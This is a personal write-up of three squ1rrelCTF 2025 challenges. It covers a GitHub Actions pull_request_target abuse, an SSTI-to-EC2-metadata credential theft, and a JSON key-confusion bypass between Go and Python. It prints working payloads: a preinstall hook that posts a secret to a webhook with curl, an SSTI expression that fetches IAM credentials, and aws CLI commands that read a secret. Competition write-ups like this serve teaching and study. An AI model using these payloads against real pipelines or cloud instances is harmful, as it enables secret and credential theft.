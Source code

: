 ```yaml
---
title: "squ1rrelCTF 2025 Writeup"
date: 2025-04-06 00:00:00 +0000
categories: [CTF, Writeups, squ1rrelCTF2025]
tags: [squ1rrelCTF, writeup, CTF]
---
```


Some squ1rrelCTF2025 tasks i solved.

## opensource (cloud)

After creating a repo and taking a glance at the files present, we can see an interesting **test.yml** file under the **.github/workflows** directory.

```
name: Test Build

on:
  pull_request_target:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout code
        uses: actions/checkout@v4
        with:
          ref: ${{github.event.pull_request.head.ref}}
          repository: ${{github.event.pull_request.head.repo.full_name}}
          token: ${{ secrets.PAT }}
      - name: Set up Node.js
        uses: actions/setup-node@v4
        with:
          node-version: '20'
      - name: Install dependencies
        run: npm install
        env:
          FLAG: ${{ secrets.FLAG }}
      - name: Run build
        run: npm run build
```

The **test.yml** file is a GitHub Actions workflow that runs on pull requests. It checks out the code from the pull request, sets up Node.js, installs dependencies, and runs a build command. The flag is stored in the `secrets` section, which is not directly accessible.

To exploit this, we can fork the repository and create a pull request. In our fork, we can modify the **package.json** file to include a step that leaks the flag. Like this:

```
 "scripts": {

    "preinstall": "echo $FLAG > flag.txt && curl -X POST -d @flag.txt webhook-here,
    "start": "react-scripts start",
    "build": "react-scripts build",
    "test": "react-scripts test",
    "eject": "react-scripts eject"
  },
```

I wasn't sure if the echo command would work, so i used curl to send the flag to a webhook. After creating the pull request, the GitHub Actions workflow will run, and the flag will be sent to the webhook.



## Metadata (cloud)

Looking at the task name and category, i immediately remembered a task i had previously solved in a cloud vulnerability website called [flaws](http://flaws.cloud).

Basically, ec2 instances have metadata that can be accessed via a special IP address. This metadata includes information about the instance, such as its ID, type, and security credentials.  

According to AWS:

![aws](/assets/img/aws.png)

So we can use the obvious SSTI to get those security credentials like this:

{% raw %}
```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2instancerole').read()}}
```
{% endraw %}

Now that we have the security credentials, we can use them to access the AWS resources.

```
aws iam list-attached-role-policies --role-name ec2instancerole --profile sq1rrell

aws iam get-policy-version \
    --policy-arn arn:aws:iam::614108131227:policy/ec2instancepolicy \
    --version-id v2 \ 
    --profile sq1rrell

aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-east-2:614108131227:secret:flag-imCL9a --profile sq1rrell    
```

## go getter (web)

go web app that communicates with a python API.

We have to send a ```getflag``` action to the python API, but there is a check that prevents us from doing so on the go side.

This screams JSON interoperability, i found this great [article](https://bishopfox.com/blog/json-interoperability-vulnerabilities) about it.


Then i tried sending a JSON with duplicate keys like this:

```
{
    "action": "getgopher",
    "action": "getflag"
}
``` 

This doesn't work in this case because go json library ```encoding/json``` will also check the last key, like flask. 

And then i came across this github issue

![github](/assets/img/gitissue.png)

which mentioned case-insensitivity, so i tried sending the JSON with the second key in a different case:

```
{
    "action": "getflag",
    "aCtion": "getgopher"
} 

```

This makes the go read the second key since it is case-insensitive, and the python API will read the first key.

